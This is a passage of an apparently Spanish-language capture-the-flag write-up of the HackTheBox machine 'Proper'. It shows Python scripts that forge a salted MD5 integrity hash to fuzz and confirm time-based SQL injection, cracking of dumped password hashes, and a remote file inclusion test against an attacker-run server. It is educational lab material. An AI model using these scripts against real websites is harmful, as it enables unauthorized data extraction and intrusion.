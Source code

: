 ```yaml
---
layout      : post 
title       : "HackTheBox - Proper" 
author      : lanz 
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321banner.png 
category    : [ htb ]
tags        : [ SQLi, RFI, race-condition, RCE, reversing ]
---
```

Máquina Windows nivel difícil. Agregamos sal a nuestra inyección **SQL**, jugaremos a ganar la **race condition** y finalmente entre reversing, movimiento lateral, creación de scripts en **PowerShell** y **pipes** conseguiremos leer archivos del sistema (:

![321properHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321properHTB.png)

## TL;DR (Spanish writeup)

**Creada por**: [xct](https://www.hackthebox.eu/profile/13569) & [jkr](https://www.hackthebox.eu/profile/77141).

Manualidades, manual, manos.

Encontraremos únicamente un servidor web en esta máquina, tendremos que jugar mucho (mucho) y leer mucho (acá también :P), me divertí **bastante** escribiendo este writeup, perdón lo largo (:

Empezaremos jugando con una URL que tiene dos parámetros, en la que encontraremos un `SQL injection` en uno de ellos... Pero para jugar correctamente con él, debemos usar un `salt` (que encontramos causando errores en las consultas web) para darle el formato correcto a las peticiones, esto para evitar un errorsito. 

Encontraremos credenciales válidas contra un apartado del servidor web llamado `/licenses`. Jugando con él y unos `themes` que nos presenta el sitio web, vamos a encontrar un `Remote File Inclusion`, nos aprovecharemos de esa vuln para mediante un `race condition` sobreescribir el contenido de un `theme` por código `PHP` 🤭. Con esto en mente lograremos una sesión en la máquina como el usuario `web`. 

Estando dentro encontraremos un directorio llamativo (ya que no es nativo del sistema) en la ruta `C:\Program Files\Cleaner`, que contiene dos binarios, `server.exe` y `client.exe`, jugando (muuuuuuuucho) con ellos veremos un proceso que borra y restaura archivos del sistema, lo curioso es que en la mitad del proceso genera una copia del archivo borrado y lo encripta, usaremos ese archivo para seguir jugando y finalmente restaurarlo... 

Suena fácil (pensarlo también) pero jmm, varias cositas para jugar... Con esto podremos ver el contenido de cualquier objeto del sistema.

Pero hasta ahora no sé (y a los que he preguntado) como obtener una Shell en la máquina como el usuario **Administrator**, así que por ahora solo podemos leer archivos del sistema.

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Bastaaaaante juego de nuestras manitas y muuuuy realista :)

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Que las luces fluyan.

1. [Reconocimiento](#reconocimiento).
  * [Descubrimos puertos abiertos con **nmap**](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Investigamos el servidor web sobre el puerto 80](#puerto-80).
3. [Explotación: jugamos con los parámetros de la web](#explotacion).
  * [Entendiendo como viajan las peticiones para evitar el error al modificar alguna variable](#web-avoid-tampering).
  * [Encontramos **inyección SQL time-based** jugando con la web](#web-sqli-time).
  * [Validamos credenciales encontradas con la **inyección SQL** contra un panel login](#licenses-web-part).
  * [Estudiamos posible **Remote File Inclusion** en la web](#web-rfi).
  * [Confirmando **Remote File Inclusion** en apartado web](#testing-securefunc).
  * [Intentamos **Race Condition** para sobreescribir archivo con código **PHP**](#web-racecondition).
4. [Escalada de privilegios](#escalada-de-privilegios).
  * [Hacemos análisis dinámico contra los binarios del proceso **Cleanup**](#cleanup-analysis).
  * [Interactuamos con el **pipe** que usa el servicio **Cleanup**](#cleanup-pipe).
  * [Usando **IO Ninja** para ver procesos del **pipe** (gracias **4st1nus**)](#cleanup-ioninja).
  * [Viendo el contenido de cualquier archivo del sistema](#cleanup-readfiles).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Enumeración de puertos con nmap [📌](#enum-nmap) {#enum-nmap}

Inicialmente haremos un escaneo de puertos para saber que servicios están ejecutándose:

```bash
❭ nmap -p- --open -v 10.10.10.231 -oG initScan 
```

| Parámetro  | Descripción |
| ---------- | :---------- |
| -p-        | Escanea todos los 65535.                      |
| --open     | Solo los puertos que están abiertos.          |
| -v         | Permite ver en consola lo que va encontrando. |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard. |

Obtenemos:

```bash
❭ cat initScan 
# Nmap 7.80 scan initiated Thu Mar 18 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.231
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.231 ()   Status: Up
Host: 10.10.10.231 ()   Ports: 80/open/tcp//http/// Ignored State: filtered (65534)
# Nmap done at Thu Mar 18 25:25:25 2021 -- 1 IP address (1 host up) scanned in 225.78 seconds
```

Wow, curiosamente solo tenemos el puerto 80 abierto...

| Puerto | Descripción |
| ------ | :---------- |
| 80     | **[HTTP](https://es.wikipedia.org/wiki/Protocolo_de_transferencia_de_hipertexto)**: Servidor web. |

Hagamos el escaneo basado en script y versiones, en este caso en el puerto 80 simplemente:

```bash
❭ nmap -p 80 -sC -sV 10.10.10.231 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
❭ cat portScan 
# Nmap 7.80 scan initiated Thu Mar 18 25:25:25 2021 as: nmap -p 80 -sC -sV -oN portScan 10.10.10.231
Nmap scan report for 10.10.10.231
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: OS Tidy Inc.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 18 25:25:25 2021 -- 1 IP address (1 host up) scanned in 15.45 seconds
```

Obtenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 80     | HTTP     | Microsoft IIS httpd 10.0 |

Empecemos a escarbar el servicio...

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Puerto 80 [📌](#puerto-80) {#puerto-80}

![321page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321page80.png)

Encontramos una bienvenida de varias imágenes y algo de data, pero nada interesante.

Revisando el código fuente, tenemos una referencia a una URL y una petición:

```js
...
<script type="text/javascript">
    $(document).ready(function(){
        'use strict';
        jQuery('#headerwrap').backstretch([ "assets/img/bg/bg1.jpg", "assets/img/bg/bg3.jpg" ], {duration: 8000, fade: 500});
        $( "#product-content" ).load("/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b",function() {});
    });
</script>
...
```

Lo emplea para armar un apartado de la bienvenida: (tiene un aspecto a que podemos jugar con inyecciones, pero primero veamos lo que renderiza con la URL)

![321page80_products](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321page80_products.png)

Interceptando la petición con `Burp` e intentando modificar alguno de los parámetros, tenemos:

(*Agregue `proper.htb` al `/etc/hosts` para que resuelva contra la IP, por si alguno se pierde al ver el dominio ahí*.)

**Original:**

![321burp_productsPHP_original](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321burp_productsPHP_original.png)

**Modificada:**

![321burp_productsPHP_modErr](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321burp_productsPHP_modErr.png)

Jmmm, nos detecta que hemos intentado modificar la petición y nos salta una advertencia. Salta siempre el mismo error si intentamos modificar cualquier variable...

Siento que por acá deben ser los tiros pero por el momento no sé que intentar... Hagamos un escaneo de rutas a ver si encontramos algo:

```bash
❭ wfuzz -c --hc=404 -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -u http://10.10.10.231/FUZZ
...
=====================================================================
ID           Response   Lines    Word       Chars       Payload      
=====================================================================
000000084:   301        1 L      10 W       150 Ch      "assets" 
000000765:   301        1 L      10 W       150 Ch      "Assets"
000004182:   301        1 L      10 W       152 Ch      "licenses"
```

Si validamos las rutas en la web, obtenemos info en `/licenses`:

![321page80_licenses](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321page80_licenses.png)

Un panel login, debemos logearnos con una dirección de correo (que podemos intuir que sea `usuario@proper.htb`). Pero probando cositas no logramos nada... 

Haciendo un fuzz sobre `/assets` encontramos la ruta `/api`, pero no tenemos acceso a su contenido:

```bash
❭ wfuzz --hc=404,500 -L -c -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt http://10.10.10.231/assets/FUZZ
...
=====================================================================
ID           Response   Lines    Word       Chars       Payload      
=====================================================================

000000009:   403        29 L     92 W       1233 Ch     "js"
000000015:   403        29 L     92 W       1233 Ch     "css"
000000045:   403        29 L     92 W       1233 Ch     "img"
000000078:   403        29 L     92 W       1233 Ch     "api"
```

...

# Explotación [#](#explotacion) {#explotacion}

Jmmm, tenemos un login panel y un archivo que hace consultas para extraer productos... Podemos pensar que debemos hacer algún tipo de `SQ, pero primero debemos bypassear el `WAF (Firewall Web)` que nos detecta si cambiamos la consulta, después de un rato jugando con `BurpSuite` vemos un error interesante al quitar uno de los parámetros:

![321burp_products_without_h_parm](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321burp_products_without_h_parm.png)

* Vemos la ruta donde están servidos los archivos del sitio: `C:\inetpub\wwwroot\`.
* Tenemos un `salt` (**conjunto de bits aleatorios que se le agregan a un hash, sea al principio o al final**, no lo sabemos) [**INFO Salt**](https://thalskarthmaelstrom.wordpress.com/2014/03/15/hash-salt-y-hashes-lentos/).
* Vemos dos archivos que pueden ser interesantes en algún caso, por si encontramos algún **LFI** ya sabemos como se llama el archivo de configuración de la base de datos...

Después de muchas pruebas ):) y estar super perdido, jugamos con el **salt** y un fuzzeito guapetón de payloads, pero antes de jugar, veamos el formato necesario para evitar el error **"Forbidden - Tampering attempt detected"** al modificar las variables:

---

## Evitando error <u>Tampering attempt detected</u> [📌](#web-avoid-tampering) {#web-avoid-tampering}

Esta es la petición original:

```html
http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b
```

Vamos a entender como esta generándose el hash y revisamos como viaja la data.

* [How to hash passwords in Python](https://nitratine.net/blog/post/how-to-hash-passwords-in-python/).
* [Hashing passwords in Python](https://www.vitoshacademy.com/hashing-passwords-in-python/).

---

```bash
❭ python3 
>>> import requests
>>> import hashlib
>>> 
>>> url = "http://proper.htb/products-ajax.php"
>>> salt = "hie0shah6ooNoim"
# En la consulta sale con un "+", pero es debido al URL encode que se hace en la peticion (el + es un espacio ahí)
>>> payload = "id desc" 
```

Bien, tenemos las variables necesarias para empezar a jugar, el valor de `h` podemos intuir que es el resultado del payload pero obteniendo su hash en `md5`:

```py
>>> hashh = hashlib.md5(payload.encode('utf-8')).hexdigest()
>>> print("Payload: " + payload + " --> " + "Hash: " + hashh)
Payload: id desc --> Hash: aa5a97b10a6dd87160868d2316ab2425
```

Listo, obtenemos el hash **md5** de la cadena `id desc`, pero no es el mismo que el de la consulta original, por lo tanto si hacemos una validación ante la web, vemos el error:

```bash
>>> session = requests.Session()
>>> r = session.get(url, params={"order":payload, "h":hashh})
>>> print(r.text)
Forbidden - Tampering attempt detected.
```

Acá entra en juego la variable `salt`, movámosla por todos lados a ver en que momento (si es que llega ese momento) nos deja de mostrar el error en la respuesta:

🕴️ Después de un rato...

```bash
>>> hashh = hashlib.md5(payload.encode('utf-8') + salt.encode('utf-8')).hexdigest()
>>> print("Payload + Salt: " + payload + " + " + salt + " --> " + "Hash: " + hashh)
Payload + Salt: id desc + hie0shah6ooNoim --> Hash: 453d803378d6fb7eaf6a3cab618106d6
>>> r = session.get(url, params={"order":payload, "h":hashh})
>>> print(r.text)
Forbidden - Tampering attempt detected.
```

```bash
>>> hashh = hashlib.md5(salt.encode('utf-8') + payload.encode('utf-8')).hexdigest()
>>> print("Salt + Payload: " + salt + " + " + payload + " --> " + "Hash: " + hashh)
Salt + Payload: hie0shah6ooNoim + id desc --> Hash: a1b30d31d344a5a4e41e8496ccbdd26b
>>> r = session.get(url, params={"order":payload, "h":hashh})
>>> print(r.text)
<div class="row"><div class="col-md-4">
...
```

OJOOOOOOOOOOOOOo, **en el hash vemos el mismo valor que en la consulta original** y al ver la respuesta de la petición tenemos la cabecera `HTML` de la web (: Así que ya sabemos como se genera el hash y como viaja la data para no obtener el errooooooooooooooooooooor 🌻

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321google_gif_yeahminion.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

## Encontramos <u>SQLi time-based</u> en la web [📌](#web-sqli-time) {#web-sqli-time}

Creemos el script para leer de un archivo llamado `sqlIgeneric.txt` algunos payloads (de [esta lista](https://github.com/payloadbox/sql-injection-payload-list)), enviarlos a la web y ver que pasa :P

```py
#!/usr/bin/python3

import requests, hashlib
import signal
from pwn import *

# Ctrl + C
def def_handler(sig, frame):
    print("\nInterrupción, saliendo...\n")
    exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables
url = "http://proper.htb/products-ajax.php"
salt = "hie0shah6ooNoim"
file_sqli = open('./sqlIgeneric.txt', 'r')
sqli_payloads = []

p1 = log.progress("paYl0Ad")

for pos, line_sqli in enumerate(file_sqli): # Recorremos el archivo
    payload = line_sqli.strip()
    hashh = hashlib.md5(salt.encode('utf-8') + payload.encode('utf-8')).hexdigest()

    p1.status(payload)
    data_get = {"order":payload, "h":hashh}

    # Si se demora 3 segundos respondiendonos potencialmente existe una inyección sql basada en tiempo.
    try:
        r = requests.get(url, params=data_get, timeout=3)

        # O si no hay error en la web tambien puede ser interesante.
        if r.status_code != 500: 
            sqli_payloads.append(payload)

    except requests.exceptions.Timeout:
        sqli_payloads.append(payload)

p1.success("FINAAAAAAAAAAAAAAAAAL.")

if sqli_payloads:
    print("[+] Estos payloads generaron algo distinto en la respuesta de la web.")
    total_payloads = '\n'.join(sqli_payloads) # Tomamos cada valor del array y lo imprimimos en una nueva linea.
    print(total_payloads)
else:
    print("[-] Nada aún...")

file_sqli.close()
```

Validamos si la página nos devuelve un código distinto a **Internal Error** (500) y si algún payload (de los que están basados en tiempo) hace que la petición se demore.

El diccionario es una colección de varios repos, logramos extraer más de 2000 payloads (líneas):

* [https://github.com/payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list).
* [https://github.com/OWASP/payloads-sql-blind](https://github.com/OWASP/AppSec-Browser-Bundle/tree/master/utilities/wfuzz/wordlist/fuzzdb/attack-payloads/sql-injection/payloads-sql-blind).

Ejecutándolo vemos esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321bash_scriptPY_fuzzSQLi_payloadsFound.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OPAAA, hay varios payloads que en su interacción generaron algo distinto a lo normal. PEEEEEEEEEEEERO ¿qué es lo llamativo? ¿lo sabes ya? EXACTOOOOOOO!! Todas tienen que ver con una inyección **SQL** basada en tiempooooooooooooooo.

🧿 ***Una inyección SQL basada en tiempo básicamente es ejecutar alguna sentencia que al dar resultado (exitoso) genera un -delay- en el lado del servidor. Si ese -delay- existe (causado por nosotros) sabemos que existe un `SQLi time-based`.***

Para confirmar que tenemos ese tipo de inyección podemos hacer esto:

```py
...
for i in range(1,11):
    payload = f"IF(6={i},sleep(5),0)#"
    hashh = hashlib.md5(salt.encode('utf-8') + payload.encode('utf-8')).hexdigest()

    data_get = {"order":payload, "h":hashh}

    try:
        r = requests.get(url, params=data_get, timeout=3)
        print("Nada: " + payload)
    except requests.exceptions.Timeout:
        print("-------> Acá: " + payload)
```

Le pasamos el payload `IF(6=N,sleep(5),0)#` (este es válido en `MySQL`, en caso de no servir deberíamos probar lo mismo pero con la sintaxis de los otros gestores de DBs) que le indica: 

* Si `N` numero es igual a `6`, haz que la web ***se demore 5 segundos en responder***, de lo contrario sigue... Si existe el delay en la respuesta, confirmamos la inyección.

Y si lo probamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321bash_scriptPY_confirmSQli_TIMEBASED.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

LIIIIIIIIIIIISTOOOOOOOOONES, tenemos `SQLi time-based` (y sabemos que estamos ante un `MySQL`).

Pues explotémoslo y veamos toooooooooda la info de las bases de datos (:

...

### Extraemos las bases de datos existentes [🪓](#web-sqli-dbs) {#web-sqli-dbs}

> [dbs.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/proper/sqli/dbs.py)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321bash_scriptPY_sqli_dbs.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ejecutándolo vemos solo 3 bases de datos y dos llamativas, `cleaner` y `test`, veamos las tablas de `cleaner`...

### Extraemos las tablas de la base de datos <u>cleaner</u> [🪓](#web-sqli-tables) {#web-sqli-tables}

> [tables.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/proper/sqli/tables.py)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321bash_scriptPY_sqli_tables_cleaner.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, también hay varias tablas, veamos la de los clientes primero...

### Extraemos las columnas de la tabla <u>customers</u> [🪓](#web-sqli-columns) {#web-sqli-columns}

> [columns.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/proper/sqli/columns.py)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321bash_scriptPY_sqli_columns_cleanerYcustomers.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora intentemos dumpear los campos principales, el `id`, el usuario (`login`) y su `password`.

### Extraemos información de las columnas [🪓](#web-sqli-info) {#web-sqli-info}

> [info.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/proper/sqli/info.py)

Con el script podemos indicarle varios campos, por ejemplo `id` y `login` separados por comas (`,`), y nos devolvería el resultado de cada uno pero separado por `-`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321bash_scriptPY_sqli_info_cleanerYcustomersYid_login.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, hay varios usuarios (no dumpeo todo porque nos echamos acá la vida entera :P, pero los hay) y tenemos unos correos... Caemos en cuenta del recurso que encontramos antes en nuestra enumeración, `/licenses`, nos mostraba un panel login que pedía exactamente eso, un mail.

Pero claro, nos falta la contraseña, pues extraigamos las dos primeras a ver si podemos hacer algo con ellas:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321bash_scriptPY_sqli_info_cleanerYcustomersYid_passwordMD5.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si nos fijamos la contraseña siempre tiene el formato de ser un hash `MD5`:

⛷️ ***La codificación del MD5 de 128 bits es representada típicamente como un número de 32 símbolos hexadecimales.*** [Wikipedia](https://es.wikipedia.org/wiki/MD5)

> **Toma de la `a` a la `f`, de la `A` a la `F` y del `0` al `9`**.

Por lo que para agilizar la extracción podemos pasarle únicamente símbolos hexadecimales como diccionario:

```py
...
dic = string.hexdigits + "-£"
...
```

Y volvemos a ejecutar...

Mientras el script corre podemos jugar con los dos hashes de antes, probablemente sean crackeables, intentémoslo.

Los guardamos en un archivo junto a su usuario (o no, como quieran):

```bash
❱ cat hashes 
vikki.solomon@throwaway.mail:7c6a180b36896a0a8c02787eeafb0e4c
nstone@trashbin.mail:6cb75f652a9b52798eb6cf2201057c73
```

Ahora usamos `John The Ripper` y el diccionario `rockyou.txt` para intentar crackearlas:

```bash
❱ john --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=Raw-MD5
```

Y en menos de un segundo vemos esto:

```bash
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (vikki.solomon@throwaway.mail)
password2        (nstone@trashbin.mail)
2g 0:00:00:00 DONE (2021-03-18 25:25) 11.76g/s 6776p/s 6776c/s 9035C/s football1..summer1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

Existen similitudes con los hashes para los dos usuarios (: YYYYYYYYYYYYY tenemos dos contraseñas para probar en el login panel.

---

## Validamos credenciales en el login de <u>/licenses</u> [📌](#licenses-web-part) {#licenses-web-part}

Listo, ahora que tenemos credenciales podemos probar ante el login panel en `/licenses` y ver si conseguimos entrar, probemos con el primer usuario: 

* `vikki.solomon@throwaway.mail` -> `password1`

![321page80_licenses_loginDone](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321page80_licenses_loginDone.png)

VAMONOOOOOOOOOOOOOOOOOOOOOOOOOOOS, tenemos acceso al login panel.

Vemos los productos del usuario, así que suponemos que cada usuario puede tener más o menos productos (de los productos que vimos al inicio).

> Ya podemos dejar de descubrir hashes con nuestro script :P

También en el header tenemos 3 links que hacen que nuestro "theme" o estilo de la web cambie...

Dando vueltas buscando vulnerabilidades con alguno de los "themes" y volviendo a leer algunos otros a ver si era que se me había pasado alguno en el que fuera necesario estar autenticado para poder ser explotado no encontré nada útil... 

Después de un rato pensé en hacer un script que actuara como fuzzer a ver si encontrábamos otros "themes", para que tomara cada directorio o archivo y lo concatenara con la `salt` y hacer el mismo proceso de antes, enviar el payload con su respectivo `hash`. 

Pero en su ejecución final terminamos encontrando algo mejor:

```py
#!/usr/bin/python3

import requests
import hashlib
import signal

# Ctrl + C
def def_handler(sig, frame):
    print("\nCancelado por el usuario, saliendo...\n")
    exit(1)

signal.signal(signal.SIGINT, def_handler)

# Proceso login y fuzz
url = "http://proper.htb/licenses"

def fuzzing(session):
    salt = "hie0shah6ooNoim"

    with open('/opt/SecLists/Discovery/Web-Content/raft-small-directories.txt', 'r') as wordlist:
        for line in wordlist:
            # Quitamos espacios finales de la cadena
            payload = line.rstrip("\n")
            # Generamos hash: md5(salt+payload)
            hashh = hashlib.md5(salt.encode('utf-8') + payload.encode('utf-8')).hexdigest()

            cookie = session.cookies.get_dict()
            parameters = "?theme=" + payload + "&h=" + hashh

            r = session.get(url + "/licenses.php" + parameters, cookies=cookie)

            print("\n[+] \"Theme\": %s -> %s" % (payload, parameters))
            print(r.text)

def login():
    session = requests.Session()

    data_post = {
        "username" : "vikki.solomon@throwaway.mail",
        "password" : "password1"
    }

    r = session.post(url + "/index.php", data=data_post)
    fuzzing(session)

if __name__ == '__main__':
    login()
```

**(QUE JESO ↑)**

Lo que estamos haciendo es sencillo, resumidamente por si te perdiste:

* Primero iniciamos sesión para poder hacer peticiones a la ruta `/licenses.php` con la sesión de `vikki`.
* Tomamos cada línea del wordlist y lo concatenamos con la `salt` (como antes).
* Y simplemente hacemos la petición, donde los parámetros son: `theme=<linea>` y `h=<hash>`.

Así que por ejemplo, llega la línea `hola`:

```py
>>> import hashlib
>>> salt = "hie0shah6ooNoim"
>>> payload = "hola"
>>> hash = hashlib.md5(salt.encode() + payload.encode()).hexdigest()
>>> print("MD5(%s + %s) = Hash: %s" % (salt, payload, hash))
MD5(hie0shah6ooNoim + hola) = Hash: 5557007e63c9d95d45ca15a39ff4a5d6
>>> 
```

Entonces finalmente la consulta que haría seria:

```php
?theme=hola&h=5557007e63c9d95d45ca15a39ff4a5d6
```

**(FIN...)**

Entonces al ejecutarlo, vemos esto con cualquier petición que hace:

![321bash_licensesPY_error_foundPHP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/proper/321bash_licensesPY_error_foundPHP.png)

Opa, el principal error es que intenta llamar un archivo, pero no lo encuentra (en el caso de la imagen intenta abrir el "theme" **intranet** en la ruta `intranet/header.inc`).

---

## Estudiamos posible <u>Remote File Inclusion</u> en la web [📌](#web-rfi) {#web-rfi}

Ahora, revisando detalladamente el error nos damos cuenta del uso de la función:

```php
 31 | // Following function securely includes a file. Whenever we
 32 | // will encounter a PHP tag we will just bail out here.
```

Aseguran la inclusión de un archivo, donde si se encuentra un tag de **PHP** (`<?`) en el contenido del mismo, simplemente muestra error y no hace el include:

```py
 33 | function secure_include($file) {
 34 |   if (strpos(file_get_contents($file),'<?') === false) {     <<<<< Error encountered in this line.
 35 |     include($file);
 36 |   } else {
 37 |     http_response_code(403);
 38 |     die('Forbidden - Tampering attempt detected.');
 39 |   }
 40 | }
 ```

> [strpos](https://www.php.net/manual/es/function.strpos.php) encuentra la **posición** de la primera ocurrencia (cuando encuentra X cadena) en X contenido...

> `$a` === `$b` / Idéntico / `true` si `$a` es igual a `$b`, y la variable es del **mismo tipo**.
>> [Operadores de comparación en **PHP**](https://www.php.net/manual/es/language.operators.comparison.php).

¿Se entiende lo que hace la función y el uso de `strpos`? Simulemos esto para que quede más claro:

* [Editor **PHP** online](https://paiza.io/es/projects/new).

---

```php
<?php

// Digamos que este es el contenido del archivo, un simple hola en codigo PHP.
$contenido_archivo = "<?php echo 'Hola'; ?>";

// Validamos que en el contenido este la cadena  <?, si esta, la validacion se vuelve  true  y nos muestra el error.
if (strpos($contenido_archivo, '<?') === false) {
    echo "Contenido: ".$contenido_archivo."\n";
    echo "Tamos bien";
}
else {
    echo "Contenido: ".$contenido_archivo."\n";
    echo "Error, tag detectado :P";
}

?>
```

Ejecutamos:

```php
Contenido: <?php echo 'Hola'; ?>
Error, tag detectado :P
```

Y si cambiamos el orden del `<?` igual seguimos teniendo el error :P 

```php
Contenido: php echo 'Hola'; <?php echo ''; ?>
Error, tag detectado :P
```

Si le quitamos el **tag** y ejecutamos:

```php
Contenido: php echo 'ahora no hay tag inicial'; ?>
Tamos bien
```

Listo, sabienod que hace y como funciona el `strpos` podemos seguir...

...

Sabemos que en este caso el error que nos muestra es por que no encuentra el archivo para cargar el "theme", pero ahora sabemos tambien que valida su contenido en busca de algun tag **PHP**...

***Por si no quieres ver todos los fallos que hice te dejo dos opciones:***

🤍 [Test con el posible **RFI**, testeando y dando algunas explicaciones de más yyyy más testeo](#testing-securefunc).<br>
❤️ [Jugando con el **RFI** logramos interceptar un hash **NTLMv2**](#found-ntlmv2).

---

## Testaaando y confirmando <u>Remote File Inclusion</u> [📌](#testing-securefunc) {#testing-securefunc}

Jugando con esto se me ocurrió levantar un servidor web e intentar cargar un archivo X como "theme", modificando el script quedaría así:

```py
...
def fuzzing(session):
    salt = "hie0shah6ooNoim"
    payload = "http://10.10.14.178:8000/locuras"

    # Generamos hash: md5(salt+payload)
    hashh = hashlib.md5(salt.encode('utf-8') + payload.encode('utf-8')).hexdigest()

    cookie = session.cookies.get_dict()
    parameters = "?theme=" + payload + "&h=" + hashh

    r = session.get(url + "/licenses.php" + parameters, cookies=cookie)

    print("\n[+] \"Theme\": %s -> %s" % (payload, parameters))
    print(r.text)
...
```

Levantamos el servidor:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y ejecutamos, vemos que intenta cargar el "theme":

```bash
[+] "Theme": http://10.10.14.178:8000/locuras -> ?theme=http://10.10.14.178:8000/locuras&h=63b61941e36339f3b23fc614b16a3124
<!-- [2] file_get_contents(http://10.10.14.178:8000/locuras/header.inc): failed to open stream: HTTP request failed! HTTP/1.0 404 File not found
...
<!-- [2] include(): http:// wrapper is disabled in the server configuration by allow_url_include=0
...
<!-- [2] include(http://10.10.14.178:8000/locuras/header.inc): failed to open stream: no suitable wrapper could be found
...
```

Y en nuestro servidor:

```bash
